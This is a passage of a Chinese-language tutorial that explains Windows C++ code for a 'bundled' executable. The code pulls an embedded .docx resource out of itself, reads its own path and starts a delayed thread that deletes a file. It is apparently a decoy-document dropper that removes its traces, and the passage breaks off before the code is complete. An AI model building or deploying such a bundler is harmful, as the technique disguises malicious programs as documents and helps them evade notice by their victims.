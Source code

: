 - `dwDeleteFile`：保存函数指针。
- `dwDeleteFile_param_1`：保存要删除的文件名。

---

定义了一个函数指针类型 `wDeleteFileA`，对应于Windows API的 `DeleteFileA` 函数

- `WINAPI`

  `WINAPI` 是一个调用约定，定义为 `__stdcall`，用于指示函数的参数从右到左压入堆栈，并由被调用函数清理堆栈。这是 Windows API 函数的标准调用约定。

- `(*wDeleteFileA)`

  `(*wDeleteFileA)` 定义了一个名为 `wDeleteFileA` 的指针，这个指针指向一个符合特定签名的函数。

- 参数列表 `(_In_ LPCSTR lpFileName)`

  参数列表描述了该函数指针指向的函数所接受的参数类型：

  - `_In_` 是一个 SAL（Source Annotation Language）注释，指示参数是输入参数。
  - `LPCSTR` 是一个指向常量字符串的指针，表示该函数接受一个指向常量字符串的指针作为参数。

总的来说定义了一个名为 `wDeleteFileA` 的新类型，这个类型是一个指向具有以下签名的函数的指针：

- 返回类型为 `BOOL`（一个布尔值）。
- 调用约定为 `WINAPI`（Windows API 标准调用约定）。
- 接受一个参数：类型为 `LPCSTR`，即一个指向常量字符串的指针，表示文件名。

---

`Bundled.cpp`

```cpp
#include <iostream>
#include <windows.h>
#include "Bundled.h"

DWORD64 WINAPI threadProc(LPVOID lParam) {

    INT RET = 20000;
    for (size_t i = 0; i < 20000; i++)
    {
        RET = RET - 1;
    }
    //循环一下起延时作用，防止线程创建了文件还没有关系，这样删除就失败了
    wDeleteFileA kDeleteFileA;
    DeleteStruct* DS = (DeleteStruct*)lParam;
    kDeleteFileA = (wDeleteFileA)DS->dwDeleteFile;
    kDeleteFileA(DS->dwDeleteFile_param_1);
    //删除文件
    return RET;
}

int main(int argc, char* argv[])
{
    CHAR PathFileName[MAX_PATH] = { 0 };
    CHAR FileName[MAX_PATH] = { 0 };

    HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(101), "docx");
    //得到资源文件HRSRC句柄
    HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
    //得到资源文件ResourceGlobal句柄
    DWORD FileSize = SizeofResource(NULL, Resource);
    //得到资源文件的大小
    LPVOID PFILE = LockResource(ResourceGlobal);
    //得到指向资源文件内容的指针
    GetModuleFileNameA(NULL, PathFileName, MAX_PATH);
    //当前进程的路径和名称
    strcpy_s(FileName, strrchr(PathFileName, '\\')+1);
    /*
```